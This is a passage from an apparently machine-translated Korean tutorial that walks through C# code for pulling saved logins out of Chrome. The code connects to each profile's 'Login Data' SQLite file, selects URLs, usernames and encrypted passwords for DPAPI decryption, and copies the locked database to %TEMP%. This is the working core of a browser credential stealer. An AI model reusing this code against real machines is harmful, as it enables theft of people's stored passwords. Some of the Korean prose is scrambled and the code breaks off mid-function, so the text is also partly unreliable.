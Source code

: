 ## 2. 존재하는 각 프로필에 대해 Login Data SQLite DB에 연결하고 필요한 세가지 정보를 쿼리 

다음과 같이 Database와 상호 작용하기 위해 System.Data.SQLite 패키지 사용

```cs
private SQLiteConnection ChromeDatabaseConnection(string databaseFilePath)
{
    FilePath = databaseFilePath;
    SQLiteConnection sqliteConnection = new SQLiteConnection(
        $"Data Source={FilePath};" +
        $"Version=3;" +
        $"New=True");

    ChromeLoginDataList = new List<BrowserLoginData>();

    sqliteConnection.Open();

    return sqliteConnection;
}

```

SQLiteConnection 객체가 있으면 db를 쿼리하고 관련 열에서 데이터를 추출할 수 있습니다.

```cs
private void ChromeDatabaseDecrypt(SQLiteConnection sqliteConnection)
{
SQLiteCommand sqliteCommand = sqliteConnection.CreateCommand();
sqliteCommand.CommandText = "SELECT action_url, username_value, password_value FROM logins";
SQLiteDataReader sqliteDataReader = sqliteCommand.ExecuteReader();

//Iterate over each returned row from the query
while (sqliteDataReader.Read())
{
    //Store columns as variables
    string formSubmitUrl = sqliteDataReader.GetString(0);

    //Avoid Printing empty rows
    if (string.IsNullOrEmpty(formSubmitUrl))
    {
        continue;
    }

    string username = sqliteDataReader.GetString(1);
    byte[] password = (byte[])sqliteDataReader[2]; //Cast to byteArray for DPAPI decryption
```

이 도구를 빌드하는 동안 Chrome이 프로필 열려 있고 해당 프로필이 로그인 될 때마다 프로필의 로그인 데이터 베이스에 대한 열린 연결을 유지하는 것으로 보입니다. 결과적으로 a 가 발생하며 이 경우 데이터 베이스 파일을 다음 System.Data.SQLite.SQLiteException 복사하기로 선택했습니다. `%TEMP%` 쿼리한 다음 임시 사본을 삭제합니다. 

```cs
public ChromeDatabaseDecryptor(string databaseFilePath)
{
    SQLiteConnection connection;
    
    //Attempt connection to the 'Login Data' database file and decrypt its contents
    try
    {
        connection = ChromeDatabaseConnection(databaseFilePath);
        ChromeDatabaseDecrypt(connection);
        connection.Dispose();
    }
    //If unable to connect, copy the database to a temp directory and access the copied version of the db file
```